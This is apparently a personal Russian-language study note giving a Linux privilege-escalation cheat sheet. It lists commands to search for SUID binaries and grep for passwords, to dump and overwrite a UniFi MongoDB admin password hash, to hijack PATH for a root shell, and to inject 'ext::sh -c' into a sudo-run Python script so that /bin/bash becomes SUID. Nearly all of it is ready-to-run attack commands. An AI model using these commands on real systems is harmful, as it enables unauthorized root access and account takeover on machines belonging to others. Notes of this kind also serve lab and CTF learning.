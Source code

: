 ### \[lin/win]PEAS и аналоги
[[Кибербезопасность/Сканирование сети/Сканирование уязвимостей/Инструментарий]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```
	find / -user root -perm /4000 2> /dev/null
	``` 
	```
	find / -type f -perm -u=s 2> /dev/null
	```
	```
	find / -perm -40 2> /dev/null
	```
	```
	find / -perm -u=s -type f 2>/dev/null
	```
	
3. Происматривать файлы в поисках пароля: 
	``` 
	cat * | grep -i passw*
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то **bash** команду. 

Дальше нужно создать файл этой bash команды с содержимым:
``` 
/bin/sh
```
и добавить её в начало переменной **PATH**:
```
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

похожий пример:
![[Pasted image 20240625220640.png]]
```
echo '#!/bin/bash' > /tmp/exploit.sh 
echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```
```
ls -l /bin/bash
/bin/bash -p
```
# Windows

См. раздел "сетевые атаки"

